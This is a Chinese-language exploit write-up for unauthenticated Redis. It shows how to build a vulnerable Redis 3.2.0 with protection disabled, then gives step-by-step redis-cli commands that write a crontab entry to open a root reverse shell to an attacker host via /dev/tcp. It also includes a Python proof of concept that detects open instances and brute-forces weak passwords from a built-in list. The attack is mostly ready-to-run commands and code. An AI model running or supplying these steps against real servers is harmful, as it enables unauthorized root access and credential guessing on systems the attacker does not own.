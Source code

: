 ### 复现环境

```
wget http://download.redis.io/releases/redis-3.2.0.tar.gz
tar xzf redis-3.2.0.tar.gz
cd redis-3.2.0
make
```
修改配置文件，使可以远程访问：

`vim redis.conf`

bind 127.0.0.1前面加上#号 protected-mode设为no 启动redis-server

`./src/redis-server redis-conf`

默认的配置是使用6379端口，没有密码。这时候会导致未授权访问然后使用redis权限写文件

### 复现方法

利用计划任务执行命令反弹shell 在redis以root权限运行时可以写crontab来执行命令反弹shell 先在自己的服务器上监听一个端口 

`nc -lvnp 7999`

然后执行命令:

```
root@kali:~# redis-cli -h 192.168.63.130
192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
OK
192.168.63.130:6379> config set dir /var/spool/cron/
OK
192.168.63.130:6379> config set dbfilename root
OK
192.168.63.130:6379> save
OK
```

上面的命令执行完，就会收到一个反弹的shell

### python poc

```python
#! /usr/bin/env python
# _*_  coding:utf-8 _*_
import socket
import sys
PASSWORD_DIC=['redis','root','oracle','password','p@aaw0rd','abc123!','123456','admin']
def check(ip, port, timeout):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("INFO\r\n")
        result = s.recv(1024)
        if "redis_version" in result:
            return u"未授权访问"
        elif "Authentication" in result:
            for pass_ in PASSWORD_DIC:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((ip, int(port)))
                s.send("AUTH %s\r\n" %(pass_))
                result = s.recv(1024)
                if '+OK' in result:
                    return u"存在弱口令，密码：%s" % (pass_)
    except Exception, e:
        pass
if __name__ == '__main__':
    ip=sys.argv[1]
    port=sys.argv[2]
    print check(ip,port, timeout=10)
```


